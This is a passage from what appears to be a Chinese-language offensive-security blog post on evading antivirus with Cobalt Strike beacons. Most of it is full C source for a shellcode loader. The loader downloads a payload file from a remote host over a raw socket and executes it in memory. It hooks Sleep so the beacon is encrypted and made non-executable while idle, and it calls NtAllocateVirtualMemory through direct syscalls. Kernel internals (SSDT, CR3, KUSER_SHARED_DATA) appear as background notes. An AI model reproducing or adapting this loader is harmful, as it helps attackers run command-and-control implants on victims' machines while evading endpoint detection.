    BOOL isScanMemory;          // 是否已查找内存页信息
    BOOL isEncrypt;             // 是否已加密
}MemoryInfo;
MemoryInfo memoryInfo;

// 查找内存页
void ScanMemoryMap()
{
    // 内存块信息结构体
    MEMORY_BASIC_INFORMATION mbi;

    LPVOID lpAddress = 0;
    HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, GetCurrentProcessId());

    int* index = &memoryInfo.index;

    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))
    {
        // 查找可读可写可执行内存页
        if (mbi.Protect == PAGE_EXECUTE_READWRITE || mbi.Protect == PAGE_EXECUTE && mbi.Type == MEM_PRIVATE)
        {

            // 保存内存信息
            memoryInfo.memoryPage[*index].address = mbi.BaseAddress;
            memoryInfo.memoryPage[*index].size = (DWORD)mbi.RegionSize;
            printf("BaseAddr = %p\n", memoryInfo.memoryPage[*index].address);
            (*index)++;

            if ((*index) >= 3)
                break;
        }
        // 更新到下一个内存页
        lpAddress = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
    }

    // 更新为已扫描内存
    memoryInfo.isScanMemory = TRUE;

    /* *
    * memoryInfo.index = 2 使用了Stageless Beacon
    * memoryInfo.index = 3 使用了Stage Beacon
    * */

    // 释放shellcode内存页
    VirtualFree(memoryInfo.memoryPage[0].address, 0, MEM_RELEASE);

    printf("Shellcode Address at 0x%p\n\n", memoryInfo.memoryPage[memoryInfo.index - 1].address);
}
```

### EncryptDecrypt函数
+ 拿到beacon真正的地址对其进行加密，这里的加密方法是可以替换的
+ 然后判断进入函数时这块内存是加密过还是未加密的，加密则修改为rw属性，因为加密后我们自然是sleep阶段所以属性也应该是rw，未加密则修改为rwx属性，
+ 这里因为加解密都是使用这个函数，所以通过判断是否加密来修改属性即可

```plain
void EncryptDecrypt()
{
    // 定位到真正的Beacon内存页
    MemoryAttrib Beacon = memoryInfo.memoryPage[memoryInfo.index - 1];
    DWORD bufSize = Beacon.size;
    unsigned int* buffer = (unsigned int*)(Beacon.address);
    int bufSizeRounded = (bufSize - (bufSize % sizeof(unsigned int))) / 4;

    // 对Beacon进行加密或解密
    _SystemFunction033 SystemFunction033 = (_SystemFunction033)GetProcAddress(LoadLibrary("advapi32"), "SystemFunction033");
    char str_key[] = "132abc";
    key.Buffer = (PUCHAR)(&str_key);
    key.Length = sizeof(str_key);
    scdata.Buffer = (PUCHAR)buffer;
    scdata.Length = bufSizeRounded;
    SystemFunction033(&scdata, &key);

    DWORD oldProt;
    memoryInfo.isEncrypt = !memoryInfo.isEncrypt;

    // 已加密
    if (memoryInfo.isEncrypt == TRUE)
    {
        // 将内存页设置为可读可写
        VirtualProtect(Beacon.address, Beacon.size, PAGE_READWRITE, &oldProt);
        printf("[>] Flipped to RW.\n");
    }

    // 未加密
    if (memoryInfo.isEncrypt == FALSE)
    {
        // 将内存页设置为可读可写可执行
        VirtualProtect(Beacon.address, Beacon.size, PAGE_EXECUTE_READWRITE, &oldProt);
        memoryInfo.key = rand();    // 更新密钥
        printf("[<] Flipped back to RX/RWX.\n");
    }

    printf("%s\n\n", memoryInfo.isEncrypt ? "[>] Encoding..." : "[<] Decoding...");
}
```

### 最终代码
加上了远程分段加载

```plain
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include "detours.h"
#include <iostream>

#pragma comment(lib, "ntdll")
//#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")

//#ifdef _WIN64
//#pragma comment(lib,"detours.x64.lib")
//#else
//#pragma comment(lib,"detours.x86.lib")
//#endif

#define DEFAULT_BUFLEN 4096


// 定义内存页属性结构体
typedef struct {
    LPVOID address;     // 内存地址
    DWORD size;         // 内存大小
}MemoryAttrib;

// 定义内存信息结构体
typedef struct {
    MemoryAttrib memoryPage[3]; // 最多存储3个内存页属性
    int index;                  // 内存下标
    int key;                    // 加解密key
    BOOL isScanMemory;          // 是否已查找内存页信息
    BOOL isEncrypt;             // 是否已加密
}MemoryInfo;

MemoryInfo memoryInfo;


// 挂钩
void HookSleep();
// 脱钩
void UnHookSleep();

DWORD getShellcode_Run(char* host, char* port, char* resource, OUT char* recvbuf_ptr) {

    DWORD oldp = 0;
    //BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
        * ptr = NULL,
        hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;


    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        printf("WSAStartup failed with error: %d\n", iResult);
        return 0;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
        printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return 0;
    }

    // Attempt to connect to an address until one succeeds
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        // Create a SOCKET for connecting to server
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return 0;
        }

        // Connect to server.
        printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return 0;
    }

    // Send an initial buffer
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }

    printf("\n[+] Sent %ld Bytes\n", iResult);

    // shutdown the connection since no more data will be sent
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }


    memset(recvbuf_ptr, 0, 400000);
    DWORD total_received = 0;
    // Receive until the peer closes the connection
    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
        {
            printf("[+] Received %d Bytes\n", iResult);
            memcpy(recvbuf_ptr, recvbuf, iResult);
            recvbuf_ptr += iResult; // 将指针移动到接收到的数据的末尾
            total_received += iResult; // 更新接收到的总字节数
            printf("[+] Received total %d Bytes\n", total_received);
        }

        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());


        //RunShellcode(recvbuf, recvbuflen);

    } while (iResult > 0);


    // cleanup
    closesocket(ConnectSocket);
    WSACleanup();

    return total_received;
}

// 查找内存页
void ScanMemoryMap()
{
    // 内存块信息结构体
    MEMORY_BASIC_INFORMATION mbi;

    LPVOID lpAddress = 0;
    HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, GetCurrentProcessId());

    int* index = &memoryInfo.index;

    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))
    {
        // 查找可读可写可执行内存页
        if (mbi.Protect == PAGE_EXECUTE_READWRITE || mbi.Protect == PAGE_EXECUTE && mbi.Type == MEM_PRIVATE)//私有内存（MEM_PRIVATE）
        {
            // 保存内存信息
            memoryInfo.memoryPage[*index].address = mbi.BaseAddress;
            memoryInfo.memoryPage[*index].size = (DWORD)mbi.RegionSize;
            //printf("memoryInfo.BaseAddr = %p address = %p\n", memoryInfo.memoryPage[*index].address, mbi.BaseAddress);
            (*index)++;

            if ((*index) >= 3)
                break;

        }
        // 更新到下一个内存页
        lpAddress = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
    }

    // 更新为已扫描内存
    memoryInfo.isScanMemory = TRUE;


    /* *
    * memoryInfo.index = 2 使用了Stageless Beacon
    * memoryInfo.index = 3 使用了Stage Beacon
    * */


    // 释放shellcode内存页
    VirtualFree(memoryInfo.memoryPage[0].address, 0, MEM_RELEASE);

    printf("Shellcode Address at 0x%p\n\n", memoryInfo.memoryPage[memoryInfo.index - 1].address);
}

typedef NTSTATUS(WINAPI* _SystemFunction033)(
    struct ustring* memoryRegion,
    struct ustring* keyPointer);

struct ustring {
    DWORD Length;
    DWORD MaximumLength;
    PUCHAR Buffer;
} scdata, key;
// 加解密Beacon
void EncryptDecrypt()
{
    // 定位到真正的Beacon内存页
    MemoryAttrib Beacon = memoryInfo.memoryPage[memoryInfo.index - 1];
    DWORD bufSize = Beacon.size;
    unsigned int* buffer = (unsigned int*)(Beacon.address);
    int bufSizeRounded = (bufSize - (bufSize % sizeof(unsigned int))) / 4;

    // 对Beacon进行加密或解密
    _SystemFunction033 SystemFunction033 = (_SystemFunction033)GetProcAddress(LoadLibrary("advapi32"), "SystemFunction033");
    char str_key[] = "132abc";
    key.Buffer = (PUCHAR)(&str_key);
    key.Length = sizeof(str_key);
    scdata.Buffer = (PUCHAR)buffer;
    scdata.Length = bufSizeRounded;
    SystemFunction033(&scdata, &key);

    DWORD oldProt;
    memoryInfo.isEncrypt = !memoryInfo.isEncrypt;

    // 已加密
    if (memoryInfo.isEncrypt == TRUE)
    {
        // 将内存页设置为可读可写
        VirtualProtect(Beacon.address, Beacon.size, PAGE_READWRITE, &oldProt);
        printf("[>] Flipped to RW.\n");
    }

    // 未加密
    if (memoryInfo.isEncrypt == FALSE)
    {
        // 将内存页设置为可读可写可执行
        VirtualProtect(Beacon.address, Beacon.size, PAGE_EXECUTE_READWRITE, &oldProt);
        memoryInfo.key = rand();    // 更新密钥
        printf("[<] Flipped back to RX/RWX.\n");
    }

    printf("%s\n\n", memoryInfo.isEncrypt ? "[>] Encoding..." : "[<] Decoding...");
}

// 定义Sleep原函数
VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;
VOID WINAPI MySleep(DWORD dwMilliseconds)
{
    UnHookSleep();

    if (!memoryInfo.isScanMemory)
        ScanMemoryMap();

    printf("XOR32 key: %X\n", memoryInfo.key);
    EncryptDecrypt();

    printf("===> MySleep(%d)\n\n", dwMilliseconds);
    Sleep(dwMilliseconds);

    EncryptDecrypt();
    HookSleep();
}

// 挂钩
void HookSleep()
{
    DetourRestoreAfterWith();
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourAttach((void**)&OldSleep, MySleep);
    DetourTransactionCommit();
}
// 脱钩
void UnHookSleep()
{
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach((void**)&OldSleep, MySleep);
    DetourTransactionCommit();
}
// 初始化内存页信息
void InitMemoryInfo()
{
    srand(time(NULL));
    memoryInfo.index = 0;
    memoryInfo.isScanMemory = FALSE;
    memoryInfo.isEncrypt = FALSE;
    memoryInfo.key = rand();    // 随机key
}


int main(int argc, char** argv)
{
    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5003";
    char* Resource = "bea.bin";
    int recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);


    LPVOID lpAddress = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT, PAGE_READWRITE);
    if (!lpAddress) return 0;
    memcpy(lpAddress, recvbuf_ptr, recvbuf_size);
    DWORD oldProtect;
    VirtualProtect(lpAddress, recvbuf_size, PAGE_EXECUTE, &oldProtect);

    InitMemoryInfo();
    HookSleep();

    (*(int(*)()) lpAddress)();
}
```

## 3x3 syscall
我们windows api的调用，通过层层调用最终还是会进入ntdll的底层函数的调用，再通过syscall快速调用进入0环实现的代码，下面我将记录一些syscall的底层基础知识，最后的代码实现是通过现成项目直接快速调用敏感api，这种现成syscall的项目很多，但是感觉都比较久了免杀效果不太好，得自己再魔改魔改

### _KUSER_SHARED_DATA
我们在3环调用的api只是起接口的作用，真正的实现都在0环里



3环进0环的寄存器和堆栈是会改变的  
所以系统在User层和Kernel层分别定义了一个`_KUSER_SHARED_DATA`结构区域，用于User层和Kernel层共享某些数据，它们使用固定的地址值映射，`_KUSER_SHARED_DATA`结构区域在User和Kernel层地址分别为  
User层地址为：`0x7ffe0000`  
Kernel层地址为：`0xffdf0000`  
通过找别人双机调试的代码观察`_KUSER_SHARED_DATA`结构区域，发现 user层地址0x7ffe0000 和kernel层地址0xffdf0000的内容是一样的，虽然指向的是同一个物理页，但在User 层是只读的，在Kernnel层是可写的。

```plain
0: kd> dt _KUSER_SHARED_DATA 0x7ffe0000
ntdll!_KUSER_SHARED_DATA
   +0x000 TickCountLow     : 0x83114
   +0x004 TickCountMultiplier : 0xfa00000
   +0x008 InterruptTime    : _KSYSTEM_TIME
   +0x014 SystemTime       : _KSYSTEM_TIME
   +0x020 TimeZoneBias     : _KSYSTEM_TIME
   +0x02c ImageNumberLow   : 0x14c
   +0x02e ImageNumberHigh  : 0x14c
   +0x030 NtSystemRoot     : [260] 0x43
   +0x238 MaxStackTraceDepth : 0
   +0x23c CryptoExponent   : 0
   +0x240 TimeZoneId       : 0
   +0x244 Reserved2        : [8] 0
   +0x264 NtProductType    : 1 ( NtProductWinNt )
   +0x268 ProductTypeIsValid : 0x1 ''
   +0x26c NtMajorVersion   : 5
   +0x270 NtMinorVersion   : 1
   +0x274 ProcessorFeatures : [64]  ""
   +0x2b4 Reserved1        : 0x7ffeffff
   +0x2b8 Reserved3        : 0x80000000
   +0x2bc TimeSlip         : 0
   +0x2c0 AlternativeArchitecture : 0 ( StandardDesign )
   +0x2c8 SystemExpirationDate : _LARGE_INTEGER 0x0
   +0x2d0 SuiteMask        : 0x110
   +0x2d4 KdDebuggerEnabled : 0x3 ''
   +0x2d5 NXSupportPolicy  : 0x2 ''
   +0x2d8 ActiveConsoleId  : 0
   +0x2dc DismountCount    : 0
   +0x2e0 ComPlusPackage   : 0xffffffff
   +0x2e4 LastSystemRITEventTickCount : 0x7f50a6
   +0x2e8 NumberOfPhysicalPages : 0xbff6a
   +0x2ec SafeBootMode     : 0 ''
   +0x2f0 TraceLogging     : 0
   +0x2f8 TestRetInstruction : 0xc3
   +0x300 SystemCall       : 0x7c92e4f0
   +0x304 SystemCallReturn : 0x7c92e4f4
   +0x308 SystemCallPad    : [3] 0
   +0x320 TickCount        : _KSYSTEM_TIME
   +0x320 TickCountQuad    : 0
   +0x330 Cookie           : 0xe996c383
```

注意：地址为0x7ffe000 + 0x300，指向的结构体 _KUSER_SHARED_DATA 的成员SystemCall， 这里就是user层进入kernel层的关键。

### CR3寄存器
CR3是一个寄存器，该寄存器内保存有页目录表物理地址，其实CR3内部存放的就是页目录表的内存基地址，运用CR3切换可实现对特定进程内存地址的强制读写操作  
通俗点说：在0环里，我在A进程里面的CR3寄存器的地址值换成B进程的CR3的地址值，A进程就可以强制 访问B进程的内存了

+ Cr3寄存器所存储的物理地址指向了一个页目录表（Page-Directory Table，PDT），也就是我们前面所 说的查找时的第一级。在Windows中，一个页的大小通常为4KB，即一个页（页目录表）可以存储1024 个页目录表项（PDE）
+ 而第二级为页表(PTT)， 每个页表的大小为4KB，即一个页表可以存储1024个页表项（PTE）



这里我们可以看一下User层的cr3，可以看到PTE最后的值为5，二进制为0101，对应到上图PTE，  


P位为1，表示其物理页有效；  
R/W位，值为1时表示可读可写，这里值为0，表示不可读写；  
U/S位，值为0表示特权用户，值为1表示普通用户，这里为1表示普通用户  
那么这里为什么看PTE的最后一位5呢？因为5对应着PTE的最低四位  
看一下kernel层的CR3  
PTE的属性最后是3，即为0011，RW位为1，可读可写。



### 怎么判断是否支持快速调用 ？
`当通过eax=1来执行cpuid指令时，处理器的特征信息被放在ecx和edx寄存器中，其中edx包含一个 SEP位（11位），该位指明当前处理器是否支持 sysenter/sysexit 指令`  
11位就是拆edx的倒数第三个值  
拆完edx后，SEP位为1，证明支持 `sysenter/sysexit`  
在我们了解了KUSER_SHARED_DATA结构体后，就可以知道call的实际上是Systemcall的地址，通过反汇编查看，通过sysente指令（快速调用)进入0环。操作系统会在系统启动的时候在KUSER_SHARED_DATA结构体的+300的位置，写入一个函数，这个函数就是  
KiFastsystemca11或者不支持则写入函数KiIntsystemca11

### 进0环需要更改CS、SS、ESP、EIP四个寄存器
+ CS的权限由3变为0，意味着需要新的CS
+ SS与CS的权限永远一致，需要新的SS
+ 权限发生切换的时候，堆栈也一定会切换，需要新的ESP
+ 进0环后代码的位置，需要EIP

### SSDT表
ssdt是一张表，即系统服务描述符表  
SSDT的全称是"System Services Descriptor Table"，在内核中的实际名称是KeServiceDescriptorTable



ssdt表第一个值0x80505450就是ssdt表地址，第三个值0x11c表示表内有多少个内核函数，第四个值0x805058c4是一个指针，指向一个地址，表示的是与上面的内核函数相对应的参数个数，例如第一个为18，参数个数就为18/4=6（十六进制）





### 手动找调用号
跟一下openprocess举例：  
打开od，找到openprocess的地址下断点，





f7跟进去



可以看到直接kernel32的openprocess调用的就是ntopenprocess（zwopenprocess），不像其他函数可能中间还有几层函数



可以看到0x26就是函数的调用号  
下面ntdll.772D8A30就是sysenter的地址



接下来就在SSDT表的基址＋0x26*4的偏移，找到openprocess0环函数的地址

#### KeServiceDescriptorTableShadow
在NT4.0以上的Windows操作系统中，默认就存在两个系统服务描述表，这两个调度表对应了两类不同的系统服务，这两个调度表为：KeServiceDescriptorTable和KeServiceDescriptorTableShadow,其中KeServiceDescriptorTable主要是处理来自ring3层kernel32.d11中的系统调用，而KeServiceDescriptorTableShadow则主要处理来自User32.dll和GDI32.dll中的系统调用，并且KeServiceDescriptorTable在ntoskrnl.exe是导出的，而KeServiceDescriptorTableShadow则是没有被Windows操作系统所导出

### 代码实现：
#### 方法一：（失败）
[https://idiotc4t.com/defense-evasion/dynamic-get-syscallid](https://idiotc4t.com/defense-evasion/dynamic-get-syscallid)

```plain
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include "detours.h"
#include <iostream>

#pragma comment(lib, "ntdll")
//#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#pragma comment (lib, "Ws2_32.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")

//#ifdef _WIN64
//#pragma comment(lib,"detours.x64.lib")
//#else
//#pragma comment(lib,"detours.x86.lib")
//#endif

#define DEFAULT_BUFLEN 4096


// 定义内存页属性结构体
typedef struct {
    LPVOID address;     // 内存地址
    DWORD size;         // 内存大小
}MemoryAttrib;

// 定义内存信息结构体
typedef struct {
    MemoryAttrib memoryPage[3]; // 最多存储3个内存页属性
    int index;                  // 内存下标
    int key;                    // 加解密key
    BOOL isScanMemory;          // 是否已查找内存页信息
    BOOL isEncrypt;             // 是否已加密
}MemoryInfo;

MemoryInfo memoryInfo;


// 挂钩
void HookSleep();
// 脱钩
void UnHookSleep();

DWORD getShellcode_Run(char* host, char* port, char* resource, OUT char* recvbuf_ptr) {

    DWORD oldp = 0;
    //BOOL returnValue;

    size_t origsize = strlen(host) + 1;
    const size_t newsize = 100;
    size_t convertedChars = 0;
    wchar_t Whost[newsize];
    mbstowcs_s(&convertedChars, Whost, origsize, host, _TRUNCATE);


    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    struct addrinfo* result = NULL,
        * ptr = NULL,
        hints;
    char sendbuf[MAX_PATH] = "";
    lstrcatA(sendbuf, "GET /");
    lstrcatA(sendbuf, resource);

    char recvbuf[DEFAULT_BUFLEN];
    memset(recvbuf, 0, DEFAULT_BUFLEN);
    int iResult;
    int recvbuflen = DEFAULT_BUFLEN;


    // Initialize Winsock
    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0) {
        printf("WSAStartup failed with error: %d\n", iResult);
        return 0;
    }

    ZeroMemory(&hints, sizeof(hints));
    hints.ai_family = PF_INET;
    hints.ai_socktype = SOCK_STREAM;
    hints.ai_protocol = IPPROTO_TCP;

    // Resolve the server address and port
    iResult = getaddrinfo(host, port, &hints, &result);
    if (iResult != 0) {
        printf("getaddrinfo failed with error: %d\n", iResult);
        WSACleanup();
        return 0;
    }

    // Attempt to connect to an address until one succeeds
    for (ptr = result; ptr != NULL; ptr = ptr->ai_next) {

        // Create a SOCKET for connecting to server
        ConnectSocket = socket(ptr->ai_family, ptr->ai_socktype,
            ptr->ai_protocol);
        if (ConnectSocket == INVALID_SOCKET) {
            printf("socket failed with error: %ld\n", WSAGetLastError());
            WSACleanup();
            return 0;
        }

        // Connect to server.
        printf("[+] Connect to %s:%s", host, port);
        iResult = connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
        if (iResult == SOCKET_ERROR) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
            continue;
        }
        break;
    }

    freeaddrinfo(result);

    if (ConnectSocket == INVALID_SOCKET) {
        printf("Unable to connect to server!\n");
        WSACleanup();
        return 0;
    }

    // Send an initial buffer
    iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
    if (iResult == SOCKET_ERROR) {
        printf("send failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }

    printf("\n[+] Sent %ld Bytes\n", iResult);

    // shutdown the connection since no more data will be sent
    iResult = shutdown(ConnectSocket, SD_SEND);
    if (iResult == SOCKET_ERROR) {
        printf("shutdown failed with error: %d\n", WSAGetLastError());
        closesocket(ConnectSocket);
        WSACleanup();
        return 0;
    }


    memset(recvbuf_ptr, 0, 400000);
    DWORD total_received = 0;
    // Receive until the peer closes the connection
    do {

        iResult = recv(ConnectSocket, (char*)recvbuf, recvbuflen, 0);
        if (iResult > 0)
        {
            printf("[+] Received %d Bytes\n", iResult);
            memcpy(recvbuf_ptr, recvbuf, iResult);
            recvbuf_ptr += iResult; // 将指针移动到接收到的数据的末尾
            total_received += iResult; // 更新接收到的总字节数
            printf("[+] Received total %d Bytes\n", total_received);
        }

        else if (iResult == 0)
            printf("[+] Connection closed\n");
        else
            printf("recv failed with error: %d\n", WSAGetLastError());


        //RunShellcode(recvbuf, recvbuflen);

    } while (iResult > 0);


    // cleanup
    closesocket(ConnectSocket);
    WSACleanup();

    return total_received;
}

// 查找内存页
void ScanMemoryMap()
{
    // 内存块信息结构体
    MEMORY_BASIC_INFORMATION mbi;

    LPVOID lpAddress = 0;
    HANDLE hProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, GetCurrentProcessId());

    int* index = &memoryInfo.index;

    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))
    {
        // 查找可读可写可执行内存页
        if (mbi.Protect == PAGE_EXECUTE_READWRITE || mbi.Protect == PAGE_EXECUTE && mbi.Type == MEM_PRIVATE)//私有内存（MEM_PRIVATE）
        {
            // 保存内存信息
            memoryInfo.memoryPage[*index].address = mbi.BaseAddress;
            memoryInfo.memoryPage[*index].size = (DWORD)mbi.RegionSize;
            //printf("memoryInfo.BaseAddr = %p address = %p\n", memoryInfo.memoryPage[*index].address, mbi.BaseAddress);
            (*index)++;

            if ((*index) >= 3)
                break;

        }
        // 更新到下一个内存页
        lpAddress = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
    }

    // 更新为已扫描内存
    memoryInfo.isScanMemory = TRUE;


    /* *
    * memoryInfo.index = 2 使用了Stageless Beacon
    * memoryInfo.index = 3 使用了Stage Beacon
    * */


    // 释放shellcode内存页
    VirtualFree(memoryInfo.memoryPage[0].address, 0, MEM_RELEASE);

    printf("Shellcode Address at 0x%p\n\n", memoryInfo.memoryPage[memoryInfo.index - 1].address);
}

typedef NTSTATUS(WINAPI* _SystemFunction033)(
    struct ustring* memoryRegion,
    struct ustring* keyPointer);

struct ustring {
    DWORD Length;
    DWORD MaximumLength;
    PUCHAR Buffer;
} scdata, key;
// 加解密Beacon
void EncryptDecrypt()
{
    // 定位到真正的Beacon内存页
    MemoryAttrib Beacon = memoryInfo.memoryPage[memoryInfo.index - 1];
    DWORD bufSize = Beacon.size;
    unsigned int* buffer = (unsigned int*)(Beacon.address);
    int bufSizeRounded = (bufSize - (bufSize % sizeof(unsigned int))) / 4;

    // 对Beacon进行加密或解密
    _SystemFunction033 SystemFunction033 = (_SystemFunction033)GetProcAddress(LoadLibrary("advapi32"), "SystemFunction033");
    char str_key[] = "132abc";
    key.Buffer = (PUCHAR)(&str_key);
    key.Length = sizeof(str_key);
    scdata.Buffer = (PUCHAR)buffer;
    scdata.Length = bufSizeRounded;
    SystemFunction033(&scdata, &key);

    DWORD oldProt;
    memoryInfo.isEncrypt = !memoryInfo.isEncrypt;

    // 已加密
    if (memoryInfo.isEncrypt == TRUE)
    {
        // 将内存页设置为可读可写
        VirtualProtect(Beacon.address, Beacon.size, PAGE_READWRITE, &oldProt);
        printf("[>] Flipped to RW.\n");
    }

    // 未加密
    if (memoryInfo.isEncrypt == FALSE)
    {
        // 将内存页设置为可读可写可执行
        VirtualProtect(Beacon.address, Beacon.size, PAGE_EXECUTE_READWRITE, &oldProt);
        memoryInfo.key = rand();    // 更新密钥
        printf("[<] Flipped back to RX/RWX.\n");
    }

    printf("%s\n\n", memoryInfo.isEncrypt ? "[>] Encoding..." : "[<] Decoding...");
}

// 定义Sleep原函数
VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;
VOID WINAPI MySleep(DWORD dwMilliseconds)
{
    UnHookSleep();

    if (!memoryInfo.isScanMemory)
        ScanMemoryMap();

    printf("XOR32 key: %X\n", memoryInfo.key);
    EncryptDecrypt();

    printf("===> MySleep(%d)\n\n", dwMilliseconds);
    Sleep(dwMilliseconds);

    EncryptDecrypt();
    HookSleep();
}

// 挂钩
void HookSleep()
{
    DetourRestoreAfterWith();
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourAttach((void**)&OldSleep, MySleep);
    DetourTransactionCommit();
}
// 脱钩
void UnHookSleep()
{
    DetourTransactionBegin();
    DetourUpdateThread(GetCurrentThread());
    DetourDetach((void**)&OldSleep, MySleep);
    DetourTransactionCommit();
}
// 初始化内存页信息
void InitMemoryInfo()
{
    srand(time(NULL));
    memoryInfo.index = 0;
    memoryInfo.isScanMemory = FALSE;
    memoryInfo.isEncrypt = FALSE;
    memoryInfo.key = rand();    // 随机key
}
BOOL RegkeyExist(HKEY hKey, char* regkey_s) {
    HKEY regkey;
    DWORD ret = RegOpenKeyEx(hKey, regkey_s, 0, KEY_READ, &regkey);
    if (ret == ERROR_SUCCESS) {
        RegCloseKey(regkey);
        return TRUE;
    }
    return FALSE;
}

char syscall_sc[] = {
    0x4c, 0x8b, 0xd1,
    0xb8, 0xb9, 0x00, 0x00, 0x00,   //系统调用号
    0x0f, 0x05,                     //syscall
    0xc3                            //ret
};

typedef LPVOID(WINAPI* fnNtAllocateVirtualMemory)(
    HANDLE ProcessHandle,                           //进程句柄
    PVOID* BaseAddress,                             //指向开辟内存的指针，二级指针
    ULONG_PTR ZeroBits,                             //不知道啥用直接置零
    PSIZE_T RegionSize,                             //指向开辟大小的指针
    ULONG AllocationType,                           //内存页
    ULONG Protect                                   //内存属性
    );

int GetSysCall(LPCSTR FuncName) {
    SIZE_T num;
    char sc[5];
    LPVOID FuncPoint = GetProcAddress(GetModuleHandleA("ntdll.dll"), FuncName);         //得到函数指针
    ReadProcessMemory(GetCurrentProcess(), FuncPoint, &sc, 0x5, &num);              //读取五个字节存到数组
    return sc[4];               //取得syscall号
}

int main(int argc, char** argv)
{
    char* recvbuf_ptr = (char*)malloc(400000);
    char* ip = "";
    char* RemotePort = "5002";
    char* Resource = "bea.bin";
    SIZE_T recvbuf_size = getShellcode_Run(ip, RemotePort, Resource, recvbuf_ptr);


    PVOID ptr = NULL;
    printf("%d",GetLastError());
    syscall_sc[4] = GetSysCall("NtAllocateVirtualMemory");
    fnNtAllocateVirtualMemory NtAllocateVirtualMemory = (fnNtAllocateVirtualMemory)&syscall_sc;
    DWORD OldProtected = 0;
    VirtualProtect((LPVOID)syscall_sc, 0x1000, PAGE_EXECUTE_READWRITE, &OldProtected);
    LPVOID lpAddress = NtAllocateVirtualMemory(GetCurrentProcess(), &ptr, 0, &recvbuf_size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //LPVOID lpAddress = VirtualAlloc(NULL, recvbuf_size, MEM_COMMIT, PAGE_READWRITE);
    if (!lpAddress) return 0;
    memcpy(lpAddress, recvbuf_ptr, recvbuf_size);
    DWORD oldProtect;
    VirtualProtect(lpAddress, recvbuf_size, PAGE_EXECUTE, &oldProtect);

    InitMemoryInfo();
    HookSleep();
    (*(int(*)()) lpAddress)();

    //if (RegkeyExist(HKEY_LOCAL_MACHINE, "SOFTWARE\\WOW6432Node\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\WeChat"))
    //{
    //  (*(int(*)()) lpAddress)();
    //}


}
```

#### 方法二：SysWhispers3
